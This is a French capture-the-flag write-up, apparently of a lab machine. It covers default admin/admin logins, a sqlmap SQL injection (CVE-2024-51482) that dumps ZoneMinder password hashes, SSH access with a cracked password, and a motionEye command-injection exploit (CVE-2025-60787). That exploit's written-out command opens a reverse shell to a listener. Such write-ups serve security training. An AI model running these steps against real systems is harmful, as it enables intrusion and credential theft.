
quand on part sur le port 80


quand j'ai appuyé sur le staff login, j'ai eu une page de connexion et j'ai pu me connecter avec les credentials admin/admin
sur la page admin on voit la version de ZoneMinder qui est '1. 37.63' et on trouve cette CVE-2024-51482 pour cette version

après avoir cherché exploit 'CVE-2024-51482', j'ai trouvé ce repo sur github : https://github.com/BridgerAlderson/CVE-2024-51482/blob/main/README.md
j'ai cloné le repo sur ma vm

première commande pour voir si le site est vulnérable

deuxième commande pour découvrir les bases de données existantes sur le site

la commande pour récupérer les hashs des mdp des 3 utilisateurs
| Option | Explication |
|---|---|
-u "http://..." |
L'URL cible contenant le paramètre vulnérable. Ici le paramètre tid=1 est celui qui est injecté - c'est lui que sqlmap va manipuler. |
-D zm |
On cible spécifiquement la base de données zm (ZoneMinder). Sans cette option sqlmap énumérerait toutes les bases. |
-T Users |
On cible la table Users dans la base zm. |
-C Username,Password |
On extrait uniquement ces deux colonnes pour aller vite. Sans -C, sqlmap dumperait toute la table. |
--dump |
Ordre d'extraire et d'afficher les données trouvées. |
--batch |
Mode non-interactif : sqlmap répond automatiquement "oui" à toutes ses propres questions. Utile pour éviter d'avoir à valider manuellement chaque étape. |
--dbms=MySQL |
On indique manuellement que le SGBD est MySQL. Cela évite à sqlmap de perdre du temps à "deviner" le type de base de données. |
--technique=T |
On force l'utilisation de la technique Time-based blind uniquement (T = Time). C'est la technique adaptée à ce type de vulnérabilité. |
--cookie="ZMSESSID=..." |
Le cookie de session admin obtenu après connexion avec admin/admin. Sans lui, sqlmap accèderait à des pages non authentifiées et ne trouverait pas la vulnérabilité. |
--time-sec=2 |
Le délai en secondes utilisé pour les injections time-based. Si la requête prend >2s c'est un "oui", sinon c'est un "non". |
résultat de la commande :

on eu le hash des 3 utilisateurs

on récupére le mdp de mark en clair pour pouvoir se co en ssh

grâce au mdp récupéré en clair on a pu accéder a la machine de mark en ssh et je regarde les ports ouverts en local (qu'on ne voit pas depuis l'extérieur)


grâce a cette commande j'ai pu voir qu'il y avait des fichiers conf pour chaque caméra :


grâce a la commande précédente j'ai pu me co avec le compte admin sur l'interface de motionEye

quand j'ai vu qu'il y avait une caméra sur l'interface web je suis parti chercher si je pouvais trouver quelque chose d'intéressant dans le répertoire de la caméra1 et ça n'a pas manqué car un utilisateur a déjà exécuté des commandes pour faire du reverse shell dans les champs
picture_filename et snapshot_filename.

en me connectant a l'interface de motionEye j'ai chercher la version de l'outil pour pouvoir chercher si y a un exploit sur internet et j'ai trouvé ce github : https://github.com/gunzf0x/CVE-2025-60787
Ce CVE injecte dans les 2 champs comme ce qu'a fait l'utilisateur dans caméra 1.
la commande par défaut pour faire ce reverse shell :
"python3 CVE-2025-60787.py revshell --url 'http://10.10.10.10:8765' --user 'admin' --password 'StrongPassw0rd123!' -i 10.10.10.15 --port 9001"
la commande adapté a ma situation :

j'ai précisé ce port le "4444"

car j'ai ouvert ce port pour écouter sur un autre terminal
après avoir lancé le script j'ai pu accéder a l'interface root de motionEye

en me connectant au l'utilisateur root j'ai pu récupérer le flag root :


après avoir récup le flag admin je suis partie dans le répertoire de sa_mark pour récup le flag user